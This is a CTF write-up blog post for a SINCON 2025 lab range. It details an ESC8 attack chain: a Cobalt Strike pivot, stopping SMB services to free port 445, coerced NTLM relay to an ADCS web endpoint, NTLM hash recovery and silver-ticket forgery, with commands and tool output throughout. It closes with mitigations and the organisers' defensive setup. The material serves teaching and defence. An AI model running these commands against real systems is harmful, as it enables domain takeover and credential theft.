

# SINCON CTF 2025: All Too Relayxing

During [SINCON 2025](https://www.infosec-city.com/sin-25), we sponsored and organized an Active Directory CTF with the [Range Village](https://www.rangevillage.org/). We saw an incredible turnout with nearly 50 people joining us in person, including many newcomers who had never tackled Active Directory challenges before!

This is the first part of a two-part series that will provide an overview of the more "challenging" part of the CTF, which involved exploiting ESC8 from a pivot in a restrictive environment by temporarily unbinding SMB ports.

I found this part of the CTF especially interesting and worth sharing because it highlights a common attack path that's frequently overlooked. ADCS can often be a quick and easy win for those familiar with its common attack paths - particularly since Microsoft does not consider this attack path to have crossed a security boundary.

<div class="toc-container">
<button class="toc-toggle" onclick="toggleToc()">Table of Contents</button>
<div class="toc-content" id="tocContent">
<ol>
<li>
<a href="#introduction">Introduction</a>
<ul>
<li><a href="#context">Context</a></li>
<li><a href="#network-topology">Network Topology</a></li>
</ul>
</li>
<li>
<a href="#pivots-and-c2">Pivots and C2</a>
<ul>
<li><a href="#command-and-control-c2">Command and Control (C2)</a></li>
</ul>
</li>
<li><a href="#enumerating-esc8">Enumerating ESC8</a></li>
<li><a href="#esc8-a-tldr">ESC8, a TLDR</a></li>
<li><a href="#why-esc8-exists">Why ESC8 Exists</a></li>
<li>
<a href="#challenges-in-restricted-environment">Challenges in Restricted Environment</a>
<ul>
<li><a href="#smb-unbinding">SMB Unbinding</a></li>
</ul>
</li>
<li><a href="#u2u2self">U2U2Self</a></li>
<li>
<a href="#exploiting-esc8">Exploiting ESC8</a>
<ul>
<li><a href="#smb-coercion">SMB Coercion</a></li>
<li><a href="#relay-to-ca">Relay to CA</a></li>
<li><a href="#exchanging-for-ntlm">Exchanging for NTLM</a></li>
</ul>
</li>
<li>
<a href="#logon-dilemma">Logon Dilemma</a>
<ul>
<li><a href="#s4u2self">S4U2Self</a></li>
<li><a href="#silver-ticket">Silver Ticket</a></li>
</ul>
</li>
<li><a href="#how-about-users">How about Users?</a></li>
<li>
<a href="#mitigations">Mitigations</a>
<ul>
<li><a href="#https--epa">HTTPS + EPA</a></li>
</ul>
</li>
<li>
<a href="#behind-the-scenes">Behind the Scenes</a>
<ul>
<li><a href="#disabling-spooler-service">Disabling Spooler Service</a></li>
<li><a href="#rpc-filters">RPC Filters</a></li>
<li><a href="#network-segmentation">Network Segmentation</a></li>
</ul>
</li>
</ol>
</div>
</div>
<br>

## Introduction

The given scenario was an assumed breach via an exposed Wi-Fi access point with weak credentials (`RN-Lab`:`rangevillagelab`), which placed the attacker directly into the `jess.kingdom` Active Directory domain.

As well as the following scope, and contextual information:

* Any domain-joined machine in the ranges: `10.3.10.0/24` and `10.3.20.0/24` is in scope.
* All machines are fully-patched Windows Server 2022, including the Domain Controller.
* You should refrain from running disruptive actions such as forcefully changing passwords, running nmap scans or locking accounts.
* There are a total of 12 flags.

To keep this brief, I'll skip directly to Flag 8, where the CTF's challenges became significantly more complex and engaging. Which unfortunately only had 2 solves by [Nicholas](https://www.linkedin.com/in/nicholas-soh/) and [Edwin](https://www.linkedin.com/in/edwinczd/).

## Context

From Flag 6, we'll obtain local administrator access to the `TABULARIUM` machine. And, the following commands were used to create a new user `gatari` with administrative privileges:

```
net user gatari P@ssw0rd /add
net localgroup Administrators gatari /add
```

From Flag 7, we'll obtain the credentials for the `JESS\Doros_ARCHIVON` user from a KeePass database in an SMB share that we can decrypt with a master key that was found in Flag 5.

## Network Topology


The internal machines (`SCRIPTORIUM` and `PORTICUS`) are unable to directly communicate with our machine due to the firewall rules in place and similarly, we are unable to directly communicate with them. This is a common scenario where we'll need to pivot through a compromised machine to access other machines in the network.

---

## Pivots and C2

We're able to verify that our backdoored user is a local administrator to `TABULARIUM` by running the following command:


The presence of the `(Pwn3d!)` message indicates that the authenticated user is a local administrator, note that this is a local user and not a domain user.

After connecting to the Wi-Fi access point, you will be assigned an IP address in the `10.3.99.0/24` range, which is accessible via the `TABULARIUM` machine. We can verify this by pinging our IP address from `TABULARIUM` (in this case, it is `10.3.99.2`):


### Command and Control (C2)

To establish a C2 channel, we'll be using [Cobalt Strike](https://www.cobaltstrike.com/) with an HTTP listener. The remainder of the attacks can also be performed using any other C2, but I've had the best experiences with [Havoc](https://github.com/HavocFramework/Havoc) and recently had success with [AdaptixC2](https://github.com/Adaptix-Framework/AdaptixC2).

After setting up our listener and generating payloads, we can upload the payload onto `TABULARIUM`:



Execute via your preferred method, but if using `netexec` remember to run with `--no-output` to prevent it from blocking the tool:


After executing the payload, we can verify that we have a session established with `TABULARIUM`:


After obtaining a pivot point at `TABULARIUM`, we can use tunnel our traffic through the beacon channel with `socks5` to hit `SCRIPTORIUM` and `PORTICUS`. This is done by setting up a `socks5` proxy on the Cobalt Strike beacon:

```
[05/26 01:23:39] beacon> socks 1081 socks5
[05/26 01:23:39] [+] started SOCKS5 server on: 1081
[05/26 01:23:39] [+] host called home, sent: 16 bytes
```

We can verify that we can now access `SCRIPTORIUM`.


## Enumerating ESC8

Before this point, there have been no (intended) attack paths that involve Active Directory Certificate Services (ADCS). However, we can see that ADCS is installed with the `DC-JESS-CA` Common Name (CN) and the `PALACE-DC.jess.kingdom` DC is the issuing CA.


Using any domain user, we can enumerate for enabled Certificate Templates and generic vulnerabilities (`ESC`) using [certipy](https://github.com/ly4k/Certipy):

```
certipy find -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' -target 'PALACE-DC.jess.kingdom' -stdout -vulnerable
```


## ESC8, a TLDR

ESC8 is a misconfiguration that is extremely common in many environments, and it boils down to allowing enrollment of certificates through the web endpoint of the Certificate Authority (i.e. `http://palace-dc.jess.kingdom/certsrv`). The attack occurs when an attacker is able to "coerce" authentication from a machine, or user and relay their credentials to the web endpoint and obtain either a `User` or `Machine` certificate.


Unlike protocols such as `SMB` and `LDAP` that support signing, the `HTTP` protocol does *not* have support for signing `NTLM` authentication so the attacker can relay any NTLM authentication to the `HTTP` web endpoint. As such, this attack is possible regardless of the signing configuration of the domain.

## Why ESC8 Exists

If some lightbulb hasn't gone off yet, the presence of this misconfiguration in an environment is usually a sign that domain compromise is soon to follow. This is because SMB authentication coercion is _native_ to Windows, and is not seen as a security risk by Microsoft. 

Additionally, the configuration required to enable ESC8 is vulnerable by default when installing `Web Enrollment` on the CA server. The following commands were run on a default installation of ADCS to enable the misconfiguration:

```
Install-WindowsFeature -Name ADCS-Web-Enrollment
Install-AdcsWebEnrollment -Force
```

Mitigations, and additional caveats will be discussed later, but for now, let's focus on how to exploit this misconfiguration.

## Challenges in Restricted Environment

If you recall from the network topology diagram from earlier, the `SCRIPTORIUM` and `PORTICUS` machines are unable to directly communicate with our machine due to the firewall rules in place. This means that we cannot coerce authentication from either of these machines to our listener, and relay it to the CA directly.


Instead, we'll need to use `TABULARIUM` as a pivot point to relay the authentication from `SCRIPTORIUM` or `PORTICUS` to our listener.


## SMB Unbinding

We can perform the above relay by doing a reverse port forward on `TABULARIUM` to our machine on `TCP/445 (SMB)`, however we will soon find an access denied.

```
[05/26 02:13:23] beacon> rportfwd 445 0.0.0.0 445
[05/26 02:13:23] [+] started reverse port forward on 445 to 0.0.0.0:445
[05/26 02:13:23] [*] Tasked beacon to forward port 445 to 0.0.0.0:445
[05/26 02:13:23] [+] host called home, sent: 10 bytes
[05/26 02:13:23] [-] Could not bind to 445
```

This is occuring because `TABULARIUM` is a domain-joined Windows machine, and the `SYSTEM` process is currently using it for the `SMB` service.

> PID 4 is the `System` process, which is responsible for managing system-level services and processes.

```
[05/26 02:13:44] beacon> run netstat -ano
[05/26 02:13:44] [*] Tasked beacon to run: netstat -ano
[05/26 02:13:45] [+] host called home, sent: 30 bytes
[05/26 02:13:45] [+] received output:

Active Connections
    Proto  Local Address          Foreign Address        State           PID
    TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       1000
    TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
    TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       7624
    TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1100
    TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
    TCP    0.0.0.0:5986           0.0.0.0:0              LISTENING       4
```

In the past, the go-to method for "unbinding" SMB is using [PortBender](https://github.com/praetorian-inc/PortBender) to forcefully redirect traffic on `TCP/445` using `WinDivert64.sys`. However, from my testing this seems to no longer be functional and/or maintained.

Luckily, there's an alternative method to release the SMB service from port 445: just force-stop the user-space services that provide SMB functionality.

Running the following commands in this order will release the port:

```
sc stop lanmanserver
sc stop srv2
sc stop srvnet
```

```
[05/26 02:23:21] beacon> run sc stop lanmanserver
[05/26 02:23:21] [*] Tasked beacon to run: sc stop lanmanserver
[05/26 02:23:21] [+] host called home, sent: 38 bytes
[05/26 02:23:21] [+] received output:

SERVICE_NAME: lanmanserver 
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x4e20

[05/26 02:23:52] beacon> run sc stop srv2
[05/26 02:23:52] [*] Tasked beacon to run: sc stop srv2
[05/26 02:23:53] [+] host called home, sent: 30 bytes
[05/26 02:23:53] [+] received output:

SERVICE_NAME: srv2 
        TYPE               : 2  FILE_SYSTEM_DRIVER  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

[05/26 02:23:58] beacon> run sc stop srvnet
[05/26 02:23:58] [*] Tasked beacon to run: sc stop srvnet
[05/26 02:23:58] [+] host called home, sent: 32 bytes
[05/26 02:23:58] [+] received output:

SERVICE_NAME: srvnet 
        TYPE               : 2  FILE_SYSTEM_DRIVER  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Next, we can check `netstat` again and find that `TCP/445` is no longer in use.

```
[05/26 02:24:35] beacon> run netstat -ano
[05/26 02:24:35] [*] Tasked beacon to run: netstat -ano
[05/26 02:24:35] [+] host called home, sent: 30 bytes
[05/26 02:24:35] [+] received output:

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       1000
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       7624
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1100
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5986           0.0.0.0:0              LISTENING       4
```

And, we can proceed to perform the reverse port forward once again with no errors:

```
[05/26 02:26:27] beacon> rportfwd 445 0.0.0.0 445
[05/26 02:26:27] [+] started reverse port forward on 445 to 0.0.0.0:445
[05/26 02:26:27] [*] Tasked beacon to forward port 445 to 0.0.0.0:445
[05/26 02:26:27] [+] host called home, sent: 10 bytes
```

This can be verified by running a `curl` against ourselves at `TCP/445` and catching the request on our host:

```
[05/26 02:27:06] beacon> powershell curl http://127.0.0.1:445
[05/26 02:27:06] [*] Tasked beacon to run: curl http://127.0.0.1:445
[05/26 02:27:06] [+] host called home, sent: 131 bytes
[05/26 02:27:16] [+] received output:
#< CLIXML
```

## U2U2Self

The last portion of the ESC8 attack (after obtaining a `Machine` or `User` certificate) is to exchange the certificate for a `TGT` (Ticket Granting Ticket) for the `jess.kingdom` domain. 

When a certificate is used to authenticate (PKINIT), the resultant ticket will include a `PAC_CREDENTIAL_INFO` structure that contains the NTLM hash of the user or machine account. The authenticating user's NTLM hash can then be recovered by performing a `S4U2Self` with a `U2U` extension.

More details of this attack can be found here: [Unpac-The-Hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash)


## Exploiting ESC8

Now that we are able to redirect traffic from `TABULARIUM:445` to our machine, we can proceed with the attack:
1. Coerce SMB authentication via Spooler using [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) from `SCRIPTORIUM` to `TABULARIUM`
2. Forward SMB from `TABULARIUM:445` to our `ATTACKER:445`
3. Catch authentication, and relay to `http://palace-dc.jess.kingdom/certsrv/certfnsh.asp` and request for a `Machine` certificate as `SCRIPTORIUM$`.

After obtaining the `Machine` certificate, we can use it to authenticate to the DC as `SCRIPTORIUM$` and "exchange" the certificate for the NTLM hash of the authenticating user. 

### SMB Coercion

In default installations of Windows Server, the Spooler service is installed and can be used to coerce SMB authentication via the `RpcRemoteFindFirstPrinterChangeNotificationEx` method. [This is not seen as a security risk by Microsoft](https://www.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory#47).

We can call this function remotely with [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) to coerce authentication from `SCRIPTORUIM` to `TABULARIUM`:


### Relay to CA

We'll use [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) to relay the authentication to the CA web endpoint, which will request a `Machine` certificate for any authenticating user. 

```
ntlmrelayx.py -t 'http://palace-dc.jess.kingdom/certsrv/certfnsh.asp' -smb2support --adcs --template 'Machine' --no-http-server
```


### Exchanging for NTLM

We can use the obtained `SCRIPTORIUM$` certificate (named `SCRIPTORIUM$.pfx`) to authenticate to the DC and obtain the NTLM hash of the authenticating user. This is done by running the following command:


### Logon Dilemma

After obtaining the NTLM hash of `SCRIPTORIUM$`, we can use it to authenticate to `SCRIPTORIUM.jess.kingdom`. You'll find that you are indeed authenticated, however you don't have the `(Pwn3d!)` message.


This is because computer accounts do not necessarily have local administrator access to themselves. There are 2 main workarounds to this:

* Use `S4U2self` to obtain a Service Ticket to yourself as a Domain Administrator
* Use your `NTLM` hash to forge a Silver Ticket for any SPN to yourself as a Domain Administrator

#### S4U2Self

S4U2Self is an [extension of Kerberos](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13) that allows for services to obtain a service ticket on behalf of any user. Machines in Active Directory are services, that have a number of Service Principal Names (SPNs) - some of which you may recognize: `cifs`, `host`, `rpcss`, `wsman`, etc.

Using the above protocol, we can obtain a service ticket for `cifs` service to ourselves as the `Administrator` account:

```
getST.py -self -impersonate 'Administrator' -altservice 'cifs/SCRIPTORIUM.jess.kingdom' 'jess.kingdom'/'SCRIPTORIUM$' -hashes ':cdc728e1aefc4e997d6d895fbbaec3f9'
```


The attributes of this ticket can also be found using `describeTicket.py`, which shows that is a valid ticket for the `cifs/SCRIPTORIUM.jess.kingdom` service, for the `Administrator` user in the `jess.kingdom` realm:

```
describeTicket.py Administrator@cifs_SCRIPTORIUM.jess.kingdom@JESS.KINGDOM.ccache
Impacket v0.13.0.dev0+20250516.105908.a63c652 - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : a3c0173f32c7c3ad93d7dddf7d549e90
[*] User Name                     : Administrator
[*] User Realm                    : jess.kingdom
[*] Service Name                  : cifs/SCRIPTORIUM.jess.kingdom
[*] Service Realm                 : JESS.KINGDOM
[*] Start Time                    : 26/05/2025 03:02:06 AM
[*] End Time                      : 26/05/2025 13:02:06 PM
[*] RenewTill                     : 27/05/2025 03:02:08 AM
[*] Flags                         : (0x40a10000) forwardable, renewable, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : o8AXPzLHw62T193ffVSekA==
[*] Kerberoast hash               : ...redacted...
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : cifs/SCRIPTORIUM.jess.kingdom
[*]   Service Realm               : JESS.KINGDOM
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
```

And subsequently, this ticket can be used for Kerberos authentication to `SCRIPTORIUM` as `Administrator`:


#### Silver Ticket

Similarly, since `SCRIPTORIUM$` is technically a service account that services `SPNs` that are applied on `SCRIPTORIUM`. We can forge a silver ticket for the `cifs/SCRIPTORIUM.jess.kingdom` service to ourselves as `Administrator`:

```
ticketer.py -nthash 'cdc728e1aefc4e997d6d895fbbaec3f9' -domain-sid 'S-1-5-21-54816899-3316220569-2952399223' -domain 'jess.kingdom' -spn 'cifs/SCRIPTORIUM.jess.kingdom' -user-id 500 Administrator
```


```
describeTicket.py Administrator.ccache 
Impacket v0.13.0.dev0+20250516.105908.a63c652 - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : 616e684567724f664d7a6b536b6f7073
[*] User Name                     : Administrator
[*] User Realm                    : JESS.KINGDOM
[*] Service Name                  : cifs/SCRIPTORIUM.jess.kingdom
[*] Service Realm                 : JESS.KINGDOM
[*] Start Time                    : 26/05/2025 02:55:22 AM
[*] End Time                      : 24/05/2035 02:55:22 AM
[*] RenewTill                     : 24/05/2035 02:55:22 AM
[*] Flags                         : (0x50a00000) forwardable, proxiable, renewable, pre_authent
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : YW5oRWdyT2ZNemtTa29wcw==
[*] Kerberoast hash               : ..redacted..
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : cifs/SCRIPTORIUM.jess.kingdom
[*]   Service Realm               : JESS.KINGDOM
[*]   Encryption type             : rc4_hmac (etype 23)
[-] Could not find the correct encryption key! Ticket is encrypted with rc4_hmac (etype 23), but no keys/creds were supplied
```

This ticket can be used for Kerberos authentication to `SCRIPTORIUM` as `Administrator`, exactly the same as before:


Note that silver tickets can be forged entirely offline, and do not require any interaction with the domain controller. This is because the ticket is signed with the service account's NTLM hash, which we already have.

However, there are some glaring IOCs depending on the tool used to forge the ticket. For example, the ticket that we just forged has an expiration date in `24/05/2035`, which is 10 years in the future. Additionally, the ticket is encrypted with `rc4_hmac` instead of the domain's default encryption type, which is `aes256_cts_hmac_sha1_96`.

Additionally, the forgery of a silver ticket is only possible if you have the NTLM hash or AES key of the service account. Whereas, the S4U2Self method can be applied in cases where you only have Kerberos authentication as the account, such as during an attack invlving [Unconstrained Delegation](https://www.silverfort.com/glossary/unconstrained-delegation/).

### How about Users?

Similarly, SMB authentication coercion from domain user accounts can also be relayed to web endpoints for the `User` certificate template. The process is exactly the same, and you can "simulate" the authentication process by manually authenticating to `TABULARIUM`.

This is a common attack path that is often overlooked, the coercion can come in the form of the usual `.lnk` files being dropped in global shares. The traditional TTP has been relaying these authentication requests to unsigned SMB endpoints, or cracking them offline.

We'll also be using `certipy` for relaying user authentication, as I've had issues getting `ntlmrelayx.py` to work in this particular case.

```
certipy relay -target 'PALACE-DC.jess.kingdom' -template 'User'
```


Note that the authentication target shows the CA, as it has been relayed via `TABULARIUM` =)


And similarly to before, we can obtain the NTLM hash of the user account by exchanging the certificate for a TGT:

```
certipy auth -pfx 'doros_archivon.pfx' -dc-ip '10.3.20.31'                        
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Doros_ARCHIVON@jess.kingdom'
[*] Using principal: 'doros_archivon@jess.kingdom'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'doros_archivon.ccache'
[*] Wrote credential cache to 'doros_archivon.ccache'
[*] Trying to retrieve NT hash for 'doros_archivon'
[*] Got hash for 'doros_archivon@jess.kingdom': aad3b435b51404eeaad3b435b51404ee:96b5326207a074816bdd447bc7784ad4
```

## Mitigations

In the breaking whitepaper by SpecterOps: [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf). It is stated in `PREVENT8` that the following mitigations should be applied to prevent the exploitation of ESC8:

* Disable NTLM Authentication
* Enable HTTPS and Enable Extended Protection for Authentication (EPA)

In most environments, disabling NTLM authentication is not feasible, as it will break many legacy applications that rely on NTLM authentication.

### HTTPS + EPA

The second mitigation approach is more practical, however, many individuals incorrectly interpret the "and" requirement as an "or" option. It's important to recognize that simply implementing and enforcing `TLS` by itself will *not stop* ESC8 exploitation. `Extended Protection for Authentication (EPA)` is the security control that actually prevents relaying of NTLM authentication to the CA web endpoint.

Consider the following example, where the `PALACE-DC.jess.kingdom` CA web endpoint is configured to use `HTTPS` but does not have `EPA` enabled. This was configured with reference to the official documentation: [here](https://learn.microsoft.com/en-us/archive/technet-wiki/12039.active-directory-certificate-services-ad-cs-error-in-order-to-complete-certificate-enrollment-the-web-site-for-the-ca-must-be-configured-to-use-https-authentication)


The same attack as before, with a slight modification to the `ntlmrelayx.py` command to use `HTTPS` instead of `HTTP` will still work:

```
ntlmrelayx.py -t 'https://palace-dc.jess.kingdom/certsrv/certfnsh.asp' -smb2support --adcs --template 'Machine' --no-http-server
```


However, after setting "Extended Protection" to "Required" in the CA web enrollment configuration, the same attack will now fail.


## Behind the Scenes

As ESC8 is a misconfiguration that I see extremely often in the wild, I really wanted to create a CTF challenge that would allow participants to experience the exploitation of this misconfiguration in a controlled environment - however, due to the nature of the misconfiguration, it's challenging to include ESC8 in a CTF scenario without enabling participants to completely compromise the entire domain starting from just a basic domain user account.

Since authentication coercion is native to Windows and can't be effectively patched without significantly disrupting the operating system’s functionality, Microsoft has suggested general mitigations like disabling NTLM authentication and enforcing SMB and LDAP signing.

However, disabling NTLM authentication is extremely difficult to do in practice and SMB/LDAP signing does not prevent relay attacks against web enrollment as HTTP does not support signing NTLM authentication.

The solution that we came up with is:
* Disabling Spooler Service
* RPC Filtering
* Network Segmentation

### Disabling Spooler Service

If you attempt to perform the attack with another machine, for example: `KNIGHT-HALL.jess.kingdom`. You'll find that `printerbug.py` will fail with the following error:

```
[*] Attempting to trigger authentication via rprn RPC at KNIGHT-HALL.jess.kingdom
[-] An unhandled exception has occured. Trying next host:
[-] SMB SessionError: code: 0xc0000034 - STATUS_OBJECT_NAME_NOT_FOUND - The object name is not found.
```

This occurs because the `Spooler` service is not running on `KNIGHT-HALL`, and thus the problematic RPC methods cannot be called.


### RPC Filters

There are also other authentication coercion methods that rely on RPC, such as `DFSCoerce` which relies on `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot` from `MS-DFSNM` and `PetitPotam` which relies on `EfsRpcOpenFileRaw` from `MS-EFSRPC`. It is not feasible to simply disable the RPC services, as this would definitely break many applications that rely on RPC for communication.

To mitigate this, we applied an extremely restrictive RPC filter on all domain-joined machines which blocks all inbound RPC requests. In real environments, this rule should be applied with more fine-grained access controls rather than outright blocking all traffic:

For example, consider the following RPC filter rule that blocks all inbound requests with the protocol UUID `c681d488-d850-11d0-8c52-00c04fd90f7e`:


The protocol UUID: `c681d488-d850-11d0-8c52-00c04fd90f7e` corresponds to the [`MS-EFSR` protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/403c7ae0-1a3a-4e96-8efc-54e79a2cc451) which contains a set of RPC methods (`EfsRpcOpenFileRaw`, etc.) that can be used to coerce authentication via `EFS` - this is meant to prevent `PetitPotam`.

Attempting to perform the attack with `KNIGHT-HALL` will result in the following error:

```
proxychains /opt/tools/PetitPotam/PetitPotam.py -d 'jess.kingdom' -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' TABULARIUM.jess.kingdom KNIGHT-HALL.jess.kingdom
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
/opt/tools/PetitPotam/PetitPotam.py:23: SyntaxWarning: invalid escape sequence '\ '
  | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN


Trying pipe lsarpc
[-] Connecting to ncacn_np:KNIGHT-HALL.jess.kingdom[\PIPE\lsarpc]
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.3.10.11:445  ...  OK
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
Something went wrong, check error status => SMB SessionError: code: 0xc00000b0 - STATUS_PIPE_DISCONNECTED - The specified named pipe is in the disconnected state.
```

And, no authentication is coerced from `KNIGHT-HALL` to `TABULARIUM`.

### Network Segmentation

In order to prevent participants from simply spraying coercion cross the domain, and getting a hit on `SCRIPTORIUM.jess.kingdom`, we have placed `SCRIPTORIUM` on a separate network segment that is only accessible via `TABULARIUM`. This means that participants will minimally need to compromise `TABULARIUM` to access `SCRIPTORIUM`, which effectively places it as the entrypoint to the second-half of the CTF.

### Conclusion

ESC8 is one of the most common misconfigurations that I see in the wild, and it is often overlooked by many security professionals. And, it is one of the few misconfigurations that can be exploited to obtain a domain compromise from a basic domain user account.

If the Certificate Authority is a non-Domain Controller (as is often the case), you would most likely be able to relay authentication from DCs and compromise the entire domain before lunch.

On a more optimistic note, we're extremely happy to have been able to include this misconfiguration in the CTF, and we hope that participants were able to practice and learn about this attack path!